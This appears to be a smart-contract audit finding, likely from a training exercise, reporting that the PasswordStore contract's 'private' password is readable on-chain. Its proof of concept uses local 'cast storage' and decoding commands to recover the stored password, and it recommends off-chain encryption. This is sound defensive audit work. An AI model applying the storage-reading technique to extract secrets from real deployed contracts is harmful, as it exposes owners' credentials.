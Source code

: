 ### [S-#] STORING THE PASSWORD ON ON-CHAIN USING PRIVATE KEYWORD IS VISIBLE TO EVERYONE, IT IS NO LONGER PRIVATE FOR ONLY OWNER.

**Description:**  Data that stored on on-chain it is publically acceseble no metter that has visibility provided by contract. It only worked for contract not for humans readability.

The `PasswordStore::s_password` vaiable is intented to a private variable and only access through `PasswordStore::getpassword()` function, which should be only call by only owner.


**Impact:** Anyonne can read the Private password, severly breaking the fucntionality of the protocol.

**Proof of Concept:**  (proof of code)

1. create a local running chain
`make anvil`

2. deploy contract locally
`
make deploy
`

3. run the storge tool

use `1`  because `s_password` is in second storage slot

```
cast storage <Contract Address> 1 --rpc-url http://127.0.0.1:8545
```

Get output like this:
`0x436f6e74726163742d506173730000000000000000000000000000000000001a`

now you can parse to string using:

```
cast parse-bytes32-string 0x436f6e74726163742d506173730000000000000000000000000000000000001a
```
output:  `Contract-pass` which is the user password.

**Recommended Mitigation:** One could encrypt the password off-chain and then store encrypted password on-cahin. It could require user to remember another password off-chain to decrypt the password. Remove view fucntion for user to accedentilly send a transaction with the password that decrypt your password 